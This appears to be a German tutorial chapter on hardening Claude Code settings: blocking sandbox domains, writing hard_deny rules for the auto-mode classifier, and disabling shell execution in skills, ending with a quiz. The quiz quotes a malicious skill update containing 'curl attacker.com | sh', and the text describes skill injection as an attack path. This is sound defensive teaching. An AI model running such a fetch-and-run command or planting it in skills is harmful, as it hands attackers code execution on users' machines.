

# S3.10 · Netzwerk und Skills härten

<!-- meta:start -->
> **Regal:** [Gegenprüfung & Compliance](README.md#security) · **Stufe:** Vertiefung · **~12 Min** · **Voraussetzungen:** [S3.9 Geschützte Pfade und Sandbox-Stufen](s3-09-geschuetzte-pfade-und-sandbox.md)
>
> ← [S3.9 Geschützte Pfade und Sandbox-Stufen](s3-09-geschuetzte-pfade-und-sandbox.md) · [Bibliothek](README.md) · [S3.11 Datenschutz, Aufbewahrung und regulierte Branchen](s3-11-datenschutz-und-compliance.md) →
<!-- meta:end -->

## Schnellcheck

- Hast du schon einmal eine Domain per `sandbox.network.deniedDomains` gesperrt, obwohl Netzwerkzugriff sonst erlaubt war?
- Kannst du ohne Nachschlagen sagen, was `disableSkillShellExecution` abschaltet und warum ein `autoMode`-Block in der `.claude/settings.json` eines Repos nichts bewirkt?

## Auf einen Blick

Drei Schalter verkleinern die Angriffsfläche, ohne dass du Sandbox, Auto-Modus oder Skills ganz abschaltest. `sandbox.network.deniedDomains` sperrt einzelne Domains für Befehle in der Sandbox, auch wenn eine breitere Freigabe sie erlauben würde. `autoMode.hard_deny` gibt dem Klassifikator des Auto-Modus Regeln, die weder eine Bitte des Nutzers noch eine Ausnahme aufweicht. `disableSkillShellExecution` verhindert, dass Skills beim Laden Shell-Befehle über `` !`…` `` ausführen.

Achte auf den Ort: `deniedDomains` und `disableSkillShellExecution` wirken in jeder Settings-Datei. `autoMode` liest Claude Code nur aus `~/.claude/settings.json`, aus den Managed Settings und über `--settings`, nie aus der `.claude/settings.json` im Repo.

## Bild im Kopf

Stell dir einen Zutrittscontroller mit drei zusätzlichen Sperren vor. Die Domain-Sperrliste ist eine feste Schwarzliste für bestimmte Ausgänge: Durch diese Tür kommt niemand, egal welcher Ausweis sonst gilt. `hard_deny` ist die Sicherheitsverriegelung, die auch der Bereichsleiter nicht übersteuert: Die Tür zum Hochsicherheitsbereich bleibt zu, selbst mit Generalschlüssel und guter Begründung. `disableSkillShellExecution` ist der versiegelte Wartungsport am RS-485-Bus: Über ein Update der Dienstanweisung gelangt kein fremder Code mehr in die Anlage.



## Im Detail

### Netzwerk: einzelne Domains hart sperren

In der Sandbox ([S3.9](s3-09-geschuetzte-pfade-und-sandbox.md)) laufen Bash-Befehle und ihre Kindprozesse mit eingeschränktem Netzwerk. `sandbox.network.deniedDomains` sperrt dort bestimmte Domains ausdrücklich. Eine gesperrte Domain bleibt gesperrt, auch wenn ein Eintrag in `allowedDomains` sie ebenfalls trifft, etwa über einen Platzhalter. Die Schreibweise ist dieselbe wie bei `allowedDomains`: Domain, Platzhalter-Muster oder IP-Adresse, optional mit `:port`.

Typischer Fall: „Ja, Netzwerk ist erlaubt, aber nie `evil.com` und nie der alte On-Prem-Endpunkt, der abgeschaltet werden soll."

Die Liste darf in jeder Settings-Datei stehen. Claude Code führt die Einträge aus allen Quellen zusammen, auch wenn die Managed Settings die Allowlist festschreiben (`allowManagedDomainsOnly`). Jeder Entwickler kann die Sperrliste also verschärfen.

### Auto-Modus: Regeln, die der Klassifikator nie aufweicht

Im Auto-Modus entscheidet ein Klassifikator, welche Aktionen ohne Rückfrage laufen ([S3.8](s3-08-rechte-fuer-autonomie.md)). Mit dem Block `autoMode` gibst du ihm eigene Regeln. `hard_deny` ist die härteste Liste: Diese Regeln blocken ohne Bedingung, weder eine ausdrückliche Bitte des Nutzers noch eine `allow`-Ausnahme hebt sie auf. Typischer Fall: „Der Auto-Modus darf das Werkzeug der Produktionsdatenbank nie anfassen, egal wie sicher der Klassifikator die Aktion einschätzt."

Drei Dinge musst du dabei wissen:

- **Die Einträge sind Sätze, keine Tool-Muster.** Der Klassifikator liest sie als Regeln in natürlicher Sprache. Harte Sperren nach Tool-Muster wie `Bash(psql *)` schreibst du in `permissions.deny`; die greifen schon vor dem Klassifikator.
- **`"$defaults"` gehört in die Liste.** Setzt du `hard_deny` ohne den Eintrag `"$defaults"`, ersetzt deine Liste die eingebauten Regeln, und die eingebaute Regel gegen Datenabfluss ist weg.
- **Der Ort entscheidet.** Claude Code liest `autoMode` nur aus `~/.claude/settings.json`, aus den Managed Settings und aus `--settings` bzw. dem Agent SDK. Aus `.claude/settings.json` und `.claude/settings.local.json` im Repo liest es den Block nicht, damit ein fremdes Repo sich keine eigenen Ausnahmen mitbringen kann.

So können Enterprise-Admins den Auto-Modus über die Managed Settings eingrenzen, ohne ihn ganz abzuschalten. Entwickler können eigene Einträge ergänzen, aber keine aus den Managed Settings entfernen. Für Aktionen, die unter keinen Umständen laufen dürfen, nennt die Doku zusätzlich `permissions.deny` in den Managed Settings: Der Klassifikator ist ein zweites Tor nach dem Rechtesystem, und die `deny`-Regel greift vorher und lässt sich nicht überschreiben.

Was der Klassifikator tatsächlich verwendet, deine Regeln und sonst die eingebauten, zeigt `claude auto-mode config`.

### Skills: keine Shell beim Laden

Skills können über `` !`command` `` Shell-Befehle einbetten ([S2.5](s2-05-lebendige-prompts.md)). Claude Code führt sie aus, bevor der Skill-Inhalt an Claude geht, und setzt die Ausgabe ein. In verwalteten Umgebungen ist das ein Einfallstor: Wer einen Skill einschleusen oder verändern kann, bringt damit Befehle mit, die beim Laden des Skills laufen.

`disableSkillShellExecution: true` schaltet das ab. Claude Code ersetzt dann jeden eingebetteten Befehl, auch in mehrzeiligen `!`-Blöcken, durch `[shell command execution disabled by policy]`. Skills funktionieren weiter als statische Prompts, sie verlieren nur den dynamischen Teil. Das gilt für Skills und Commands aus Nutzer-, Projekt- und Plugin-Quellen und aus zusätzlichen Verzeichnissen; mitgelieferte und über die Managed Settings verteilte Skills sind ausgenommen. Am meisten bringt die Einstellung in den Managed Settings: Ein `true` dort lässt sich an keiner anderen Stelle mit `false` überschreiben.

Soll Claude bestimmte, geprüfte Skills weiter ohne Rückfrage aufrufen, gib genau diese mit `Skill(<name>)`-Regeln in `permissions.allow` frei ([S3.8](s3-08-rechte-fuer-autonomie.md)).

### Alle drei in einer Datei

In deiner Nutzer-Datei `~/.claude/settings.json`, oder für alle im Unternehmen in den Managed Settings, sieht das zusammen so aus:

<!-- cockpit:example -->
```json
{
  "sandbox": {
    "network": {
      "deniedDomains": ["legacy-scada.corp.internal"]
    }
  },
  "autoMode": {
    "hard_deny": [
      "$defaults",
      "Never touch the production database tooling, no matter how safe the action looks"
    ]
  },
  "disableSkillShellExecution": true
}
```

`deniedDomains` greift nur für Befehle, die in der Sandbox laufen (`/sandbox`, [S3.9](s3-09-geschuetzte-pfade-und-sandbox.md)). In die `.claude/settings.json` eines Projekts gehören nur die beiden anderen Schlüssel; den `autoMode`-Block würde Claude Code dort nicht lesen.

## Typische Fallen

- **Der `autoMode`-Block steht im Repo.** In `.claude/settings.json` oder `.claude/settings.local.json` liest der Klassifikator ihn nicht. Verschieb ihn nach `~/.claude/settings.json` oder in die Managed Settings und prüf mit `claude auto-mode config`, was ankommt.
- **`hard_deny` ohne `"$defaults"`.** Dann ersetzt deine Liste die eingebauten Regeln, und die eingebaute Sperre gegen Datenabfluss fehlt.
- **Tool-Muster im `autoMode`-Block.** Einträge wie `"Bash(psql *)"` sind dort fehl am Platz, denn der Klassifikator liest Sätze, keine Muster. Für Muster nimm `permissions.deny`.
- **Mitgelieferte Skills bleiben dynamisch.** `disableSkillShellExecution` betrifft weder mitgelieferte Skills noch Skills aus den Managed Settings.

## Check

Du kannst für jeden der drei Schalter sagen, was er sperrt und in welcher Settings-Datei er wirkt, und begründen, in welchem Angriffsszenario `disableSkillShellExecution` den Unterschied macht.

1. Was passiert mit einer Domain, die in `deniedDomains` steht und zugleich von einem Platzhalter in `allowedDomains` getroffen wird?
2. Warum liest der Klassifikator `autoMode` nicht aus der `.claude/settings.json` eines Repos?
3. Wann gehört eine Sperre in `autoMode.hard_deny`, wann in `permissions.deny`?

<details><summary>Quizfrage</summary>

**Frage:** Ein Pentest-Team zeigt: Ein bösartiges Skill-Update mit `` !`curl attacker.com | sh` `` führt beim Laden des Skills Shell-Code aus. Welche Einstellung verhindert genau das?

- **Richtig:** `disableSkillShellExecution: true`, denn dann setzt Claude Code statt des Befehls nur einen Platzhaltertext ein.
- Falsch: `sandbox.network.deniedDomains` mit `attacker.com`, denn dann startet gar kein Befehl, der diese Domain im Text nennt.
- Falsch: `autoMode.hard_deny` mit `Bash(curl *)`, denn dort stehen Tool-Muster wie in `permissions.deny`.
- Falsch: Protected Paths für `.claude/skills`, denn geschützte Pfade sperren auch das Ausführen der Skills darin.

</details>

## Weiterlesen

- [Sandboxing](https://code.claude.com/docs/en/sandboxing)
- [Auto-Modus konfigurieren](https://code.claude.com/docs/en/auto-mode-config)
- [Skills: dynamischen Kontext einbetten](https://code.claude.com/docs/en/skills)
- [Alle Settings](https://code.claude.com/docs/en/settings-reference)
- [S3.9 · Geschützte Pfade und Sandbox-Stufen](s3-09-geschuetzte-pfade-und-sandbox.md)
- [S3.8 · Rechte für autonome Läufe](s3-08-rechte-fuer-autonomie.md)
- [S2.5 · Lebendige Prompts: Argumente und dynamischer Inhalt](s2-05-lebendige-prompts.md)
- [S2.13 · Lieferkettenrisiken bei Plugins](s2-13-plugin-lieferkette.md)
- [S3.11 · Datenschutz, Aufbewahrung und regulierte Branchen](s3-11-datenschutz-und-compliance.md)
